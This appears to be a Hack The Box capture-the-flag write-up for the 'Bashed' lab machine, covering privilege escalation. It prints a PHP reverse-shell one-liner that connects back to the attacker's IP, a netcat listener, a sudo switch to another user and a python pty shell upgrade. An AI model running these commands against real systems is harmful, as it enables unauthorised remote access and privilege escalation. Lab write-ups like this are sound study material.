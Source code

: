 
# Privilege Escalation
---
Did a quick 'find' for the user.txt flag - cat'd out and submitted. Checked sudo -l out of habit and found that user scriptmanager can run any command with no password:
```bash
www-data@bashed
:/var/www/html# sudo -l

Matching Defaults entries for www-data on bashed:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
(scriptmanager : scriptmanager) NOPASSWD: ALL
www-data@bashed
:/var/www/html# find /* -name user.txt

find: '/etc/ssl/private': Permission denied
/home/arrexel/user.txt
```

## Reverse Shell
In order to get a reverse shell, I looked up PHP Reverse Shell cheatsheets and found the following [Link](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#php) . Pulled out the syntax, modified, started a listener on my machine, and moved over to the terminal window.
```bash
php -r '$sock=fsockopen("10.10.14.2",4444);$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);'
```

## Shell Stabilization
Needed a better shell. Ran /bin/bash as user scriptmanager, confirmed that python 2 is installed, pulled up the appropriate syntax for python pty:
```bash
─[us-vip-4]─[10.10.14.2]─[htb-ghohst@pwnbox-base]─[~/Downloads/phpbash]
└──╼ [★]$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.10.68] 48594
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ sudo -u scriptmanager /bin/bash
whoami
scriptmanager
python --version
Python 2.7.12
python -c 'import pty;pty.spawn("/bin/bash")'
scriptmanager@bashed:/$
```
